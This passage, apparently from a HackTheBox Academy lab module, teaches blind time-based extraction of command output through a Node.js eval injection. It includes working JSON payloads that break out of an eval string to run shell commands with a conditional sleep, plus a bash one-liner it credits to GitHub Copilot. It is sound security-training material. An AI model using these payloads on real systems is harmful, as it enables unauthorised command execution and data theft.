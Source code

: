 ## Reading Output through Sleep

We need to read the first character in the command output and compare it against each ASCII charset. Then, we must repeat this for all other characters in the command output until no match is found, indicating the output's end.

If we were relying on JavaScript code, we could do so with the following code:

```js
require("child_process").execSync("ls").toString()[0] == "a"
  ? new Promise((resolve) => setTimeout(resolve, 2000))
  : null;

```

This may work and need some tinkering to avoid breaking the `eval` function and any other code. Luckily, we already have command execution, so we can rely on the `bash` command for `sleep` as we did before and do not need to write a lot of JavaScript code to get it working. If we did not have command execution and were trying to read the content of a local file, we would need to rely on JavaScript, as shown above.

So, we need a one-line bash command that executes our specified command, reads the first character, compares it to `a`. If it matches, then sleep for 2 seconds, if not, do nothing. Let's copy this entire sentence and ask AI to write this bash code for us:
![](https://academy.hackthebox.com/storage/modules/244/copilot_generate_bash_sleep_command.png)

As we can see, GitHub Copilot gave us this command:

```bash
command | head -c 1 | { read c; if [ "$c" = "a" ]; then sleep 2; fi; }

```

Excellent! This saves us a lot of online searching. Let's test this in our payload while ensuring that we escape any characters that may break the JSON body or the JavaScript code. We will replace `command` with `ls`:

```json
{
  "text": "'}) + require('child_process').execSync('ls | head -c 1 | { read c; if [ \"$c\" = \"a\" ]; then sleep 2; fi; }')//"
}

```

If we send the above payload, we get an immediate response. However, if we replace `a` with the actual first character in the command output, which is `n` from `node_modules` as we saw in the previous section, we do indeed get a delay of 2 seconds.

Then, we can move to the next character and try to find its value. But, if we change `head -c 1` to `head -c 2`, then it would return the first 2 characters. So, we would either need to append the first identified character, or use `tail` to only capture the last character, so we would always be reading 1 character, as follows:

```json
{
  "text": "'}) + require('child_process').execSync('ls | head -c 2 | tail -c 1 |  { read c; if [ \"$c\" = \"a\" ]; then sleep 2; fi; }')//"
}

```
